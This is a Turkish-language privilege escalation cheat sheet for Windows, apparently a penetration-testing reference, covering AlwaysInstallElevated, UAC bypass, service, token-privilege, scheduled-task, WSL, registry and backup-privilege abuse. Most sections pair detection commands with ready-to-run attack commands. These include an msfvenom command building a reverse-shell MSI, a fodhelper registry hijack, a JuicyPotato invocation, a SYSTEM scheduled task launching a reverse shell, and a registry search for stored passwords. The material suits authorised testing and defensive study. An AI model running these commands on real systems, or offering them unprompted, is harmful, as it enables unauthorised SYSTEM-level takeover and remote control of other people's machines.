 **Windows Privilege Escalation: Abusing Windows Features (Windows Özelliklerinin Kötüye Kullanılması)**

Windows işletim sisteminde yerleşik olarak bulunan bazı özellikler, yanlış yapılandırıldığında veya zafiyet içerdiğinde saldırganlar tarafından yetki yükseltmek için kullanılabilir. Bu bölümde Windows'un popüler özelliklerinin nasıl kötüye kullanılabileceği detaylı şekilde açıklanmıştır.

---

### **5.1. AlwaysInstallElevated (Her Zaman Yüksekte Çalıştır)**

Windows Installer, uygulamaları yüklemek için kullanılan bir özelliktir. **AlwaysInstallElevated** ilkesinin etkin olduğu sistemlerde, kullanıcıların SYSTEM yetkisiyle MSI dosyaları çalıştırmasına izin verilir.

#### **Nasıl Çalışır?**
- **AlwaysInstallElevated** ilkesi hem `HKLM` hem de `HKCU` kayıt defteri anahtarlarında etkinse, saldırgan SYSTEM yetkisiyle kod çalıştırabilir.

#### **Tespit**
1. AlwaysInstallElevated ayarını kontrol edin:
   ```cmd
   reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

2. Her iki anahtarda da `0x1` değeri varsa bu özellik etkin.

#### **Kötüye Kullanma**
1. Zararlı bir MSI dosyası oluşturun:
   ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f msi > malicious.msi
   ```

2. MSI dosyasını SYSTEM yetkisiyle çalıştırın:
   ```cmd
   msiexec /quiet /qn /i C:\path\to\malicious.msi
   ```

---

### **5.2. User Account Control (UAC) Bypass**

UAC, Windows'ta zararlı işlemleri engellemek için tasarlanmıştır. Ancak bazı durumlarda, zayıf yapılandırmalar veya uygulama özellikleri kullanılarak atlatılabilir.

#### **Tespit**
- Kullanıcının UAC seviyesini kontrol edin:
  ```cmd
  reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
  ```

#### **Kötüye Kullanma**
1. UAC bypass araçlarından birini kullanın:
   - **Fodhelper Exploit:** `fodhelper.exe` ile SYSTEM yetkisi kazanın.
   ```cmd
   reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
   fodhelper.exe
   ```
2. Metasploit üzerinden bir modül kullanabilirsiniz:
   ```cmd
   use exploit/windows/local/bypassuac
   ```

---

### **5.3. Windows Services (Hizmetlerin Kötüye Kullanılması)**

Windows hizmetleri, genellikle SYSTEM yetkisiyle çalışır. Zayıf yapılandırılmış hizmetler privilege escalation için kullanılabilir.

#### **Tespit**
1. Hizmetleri listeleyin:
   ```cmd
   sc query
   ```
2. Zayıf hizmet yollarını kontrol edin:
   ```cmd
   wmic service get name,displayname,pathname,startmode | findstr /i "Auto"
   ```

#### **Kötüye Kullanma**
- **Unquoted Service Path:** Tırnaksız hizmet yollarını kullanarak zararlı bir dosya yerleştirin.
- **Weak Permissions:** Hizmet dosyalarına veya yapılandırmalarına yazılabilirlik varsa dosyayı değiştirin.

---

### **5.4. SeImpersonatePrivilege Abuse**

**SeImpersonatePrivilege**, bir işlemin başka bir kullanıcının bağlamında çalışmasına izin verir. Bu ayrıcalık, SYSTEM yetkisiyle çalışan işlemleri taklit etmek için kullanılabilir.

#### **Tespit**
- Ayrıcalıkları kontrol edin:
  ```cmd
  whoami /priv
  ```

#### **Kötüye Kullanma**
1. JuicyPotato veya PrintSpoofer gibi araçlarla bu ayrıcalığı kullanarak SYSTEM yetkisi kazanın:
   ```cmd
   JuicyPotato.exe -l 1337 -p cmd.exe -t *
   ```

---

### **5.5. Windows Task Scheduler Abuse**

Zamanlanmış görevler, genellikle SYSTEM yetkisiyle çalıştırılır. Yanlış yapılandırılmış görevler privilege escalation için kullanılabilir.

#### **Kötüye Kullanma**
1. Yeni bir görev oluşturun:
   ```cmd
   schtasks /create /tn "EvilTask" /tr "C:\path\to\reverse_shell.exe" /sc onlogon /ru SYSTEM
   ```

2. Görevi çalıştırarak SYSTEM yetkisi kazanın:
   ```cmd
   schtasks /run /tn "EvilTask"
   ```

---

### **5.6. Windows Subsystem for Linux (WSL) Abuse**

Windows Subsystem for Linux (WSL), Windows üzerinde bir Linux ortamı sağlar. Yanlış yapılandırmalar veya güvenlik açıkları privilege escalation için kullanılabilir.

#### **Tespit**
- WSL'nin yüklü olup olmadığını kontrol edin:
  ```cmd
  wsl --list
  ```

#### **Kötüye Kullanma**
1. WSL ortamında zararlı bir dosya çalıştırarak Windows dosya sistemine erişim sağlayabilirsiniz.

---

### **5.7. Registry Keys Abuse (Kayıt Defteri Anahtarlarının Kötüye Kullanılması)**

Bazı kritik kayıt defteri anahtarlarının izinleri zayıfsa, bu anahtarları değiştirerek privilege escalation sağlanabilir.

#### **Kötüye Kullanma**
1. Yazılabilir bir kayıt defteri anahtarı bulun:
   ```cmd
   reg query HKLM /s /f "password" /t REG_SZ
   ```
2. Anahtarı değiştirerek zararlı bir komut ekleyin:
   ```cmd
   reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\reverse_shell.exe" /f
   ```

---

### **5.8. SeBackupPrivilege Abuse**

**SeBackupPrivilege** ayrıcalığı, dosya ve dizinlerin yedeklenmesi için kullanılır. Bu ayrıcalık, genellikle hassas dosyalara erişmek için kullanılabilir.

#### **Kötüye Kullanma**
1. Yedekleme ayrıcalığını kontrol edin:
   ```cmd
   whoami /priv
   ```
2. Bu ayrıcalığı kullanarak hassas dosyaları okuyun:
   ```cmd
   vssadmin list shadows
   ```

---

### **Araçlar ve Komutlar**
- **JuicyPotato / PrintSpoofer:** SeImpersonatePrivilege abuse için.
- **AccessChk:** Dosya, hizmet ve kayıt defteri izinlerini kontrol etmek için.
- **Metasploit:** UAC bypass ve Windows özelliklerini exploit etmek için.

---
